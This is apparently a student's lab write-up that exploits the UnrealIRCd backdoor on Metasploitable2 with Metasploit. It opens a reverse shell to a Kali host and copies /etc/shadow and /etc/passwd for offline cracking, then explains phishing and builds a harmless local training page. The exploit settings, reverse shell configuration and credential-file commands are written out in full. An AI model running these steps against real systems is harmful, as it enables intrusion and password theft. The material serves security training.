 Step 2 — Exploitation, Reverse Shell, Post-Exploitation

Objective: exploit a known vulnerability on Metasploitable2, obtain an interactive shell on the target (reverse shell), and perform post-exploit enumeration and credential collection for analysis.

A — Theory (what this phase is and why)

Exploit: use a known vulnerability in a network service to run arbitrary code on the target. In this lab we used the UnrealIRCd 3.2.8.1 backdoor exploit (exploit/unix/irc/unreal_ircd_3281_backdoor). The exploit abuses a backdoor command to execute shell commands remotely.

Payload / Reverse shell: a reverse shell payload makes the target connect back to the attacker (LHOST:LPORT). The attacker runs a listener (Metasploit’s handler or nc) and the target opens a TCP connection to it which gives an interactive shell on the target.

Post-exploitation: once a shell exists, enumerate system info, running services, users, and collect sensitive artifacts (e.g., /etc/shadow) for offline analysis. Meterpreter provides sysinfo and hashdump convenience commands; on a plain shell you use uname -a, cat /etc/os-release and read /etc/shadow.

B — What you did (concise mapping of commands → purpose)

use exploit/unix/irc/unreal_ircd_3281_backdoor
→ selected the exploit module that targets UnrealIRCd backdoor.

set RHOST 192.168.56.101, set RPORT 6667
→ target address and IRC port.

set PAYLOAD cmd/unix/reverse, set LHOST 192.168.56.102, set LPORT 4444
→ chose a reverse shell payload that causes the target to connect back to Kali at 192.168.56.102:4444.

set ExitOnSession false , set VERBOSE true , exploit
→ keep msfconsole running after session opens and show verbose output. exploit launches the attack; Metasploit started the handler and the target connected back.

Metasploit printed:

Command shell session 2 opened (192.168.56.102:4444 -> 192.168.56.101:60350)


→ this confirms a reverse shell was established.

background (or used sessions to manage sessions)
→ backgrounded the session so msfconsole could still be used; then sessions -i 2 / sessions 2 to interact.

Post-exploitation commands (ran on the target shell):

whoami → current user (result: root)

id → uid/gid (confirmed root privileges)

uname -a → kernel and system info (equivalent to sysinfo in meterpreter)

cat /etc/issue or cat /etc/os-release → distribution info

hostname, pwd, ls -la / → basic environment and location info

ip a (or ifconfig -a) → network interfaces / IPs

netstat -tulpn (or ss -tulpn) → listening services and their PIDs

ps aux | head -n 30 → running processes

cp /etc/shadow /tmp/shadow.txt and cp /etc/passwd /tmp/passwd.txt → prepared credential files for transfer (this is the shell equivalent of meterpreter hashdump)

head -n 20 /etc/shadow (or /tmp/shadow.txt)
→ preview of password hash entries (you captured this for evidence).

C — Why sysinfo / hashdump didn’t work

sysinfo and hashdump are meterpreter commands. You used a plain command shell payload (cmd/unix/reverse), not meterpreter, so you must run native shell commands instead:

sysinfo ≈ uname -a, cat /etc/os-release, hostname

hashdump ≈ reading /etc/shadow (requires root); then transfer to attacker for offline cracking
Step3 - What is phishing?
Phishing is a type of social-engineering attack where attackers send fake emails or make fake web pages to trick people into giving secrets (passwords, OTPs, personal info) or clicking malicious links.

Common phishing types:

Email phishing: fake emails that look like they’re from banks, services, or colleagues.

Spear phishing: targeted to a specific person with personal details.

Clone-site phishing: a fake login page that looks like the real site.

Smishing / Vishing: SMS or voice-based phishing.

How phishing works (simple flow):

Attacker crafts a convincing message (subject, sender spoofing, urgent tone).

Message contains a link or attachment.

Victim clicks link → fake site or malware.

Victim enters credentials or runs malware → attacker gets access.

Phishing indicators (what to teach people to spot):

Sender address doesn’t match the legitimate domain (hover and examine full address).

Strange or urgent language: “Act now” / “Verify immediately”.

Links that don’t match visible text (hover to preview URL).

Poor spelling/grammar, wrong logos, or odd formatting.

Unexpected attachments or requests for credentials/MFA codes.

Emails that ask to bypass normal procedures (pay, transfer, share secrets).

Goals of a phishing simulation (training, not punishment):

Teach people to recognize suspicious messages.

Encourage the habit of hovering links and verifying sender.

Teach reporting: how and where to report suspected phishing.

Measure improvement: click rate, report rate, and time-to-report over repeated exercises.

Ethics & rules (must include in notes):

Always get written authorization before running any simulated campaign.

Use non-sensitive and clearly labelled simulations (e.g., “SIMULATION — DO NOT ENTER REAL CREDENTIALS”).

Provide immediate feedback and short training when someone falls for the simulation.

Avoid embarrassing or punitive traps — focus on learning.

Simple training message to show after a simulated click:
“Training notice: this was a safe phishing simulation. 

Metrics to record (notes):

Click rate (% of recipients who clicked the simulated link).

Report rate (% who reported the email).

Time-to-report (how quickly they reported).

Repeat results over time to measure improvement.

Commands (terminal commands, with one-line explanation each)

These commands are safe for local classroom demos. Never run real campaigns without permission. Always label the demo page clearly “SIMULATION — DO NOT ENTER REAL CREDENTIALS.”

1) Create project folder and add the demo HTML (Linux / macOS)
mkdir -p ~/phish-sim
cd ~/phish-sim


(Create a folder and move into it.)

Create the demo page (here-doc will create index.html):

cat > index.html <<'EOF'
<!doctype html>
<!-- SIMULATION — DO NOT ENTER REAL CREDENTIALS -->
<html><body><h1>SIMULATION — Login</h1>
<p>This is a training page. Do not enter real credentials.</p>
<form onsubmit="alert('Training: report suspicious messages.'); return false;">
  <input placeholder="email"><br><input placeholder="password" type="password"><br>
  <button type="submit">Login</button>
</form>
</body></html>
EOF


(This writes a simple, harmless HTML file. The form does not submit anywhere — it just shows a training alert.)

2) Serve the page locally (Python quick server)
# start the server on port 8000
python3 -m http.server 8000


(Open http://localhost:8000 in a browser to view the page. Stop server with Ctrl+C.)

Check server is running (from another terminal):

curl -I http://localhost:8000
The demo page will be dispalyed whre user can enter email and password so that user can get training about how phishing email occurs.

Step 


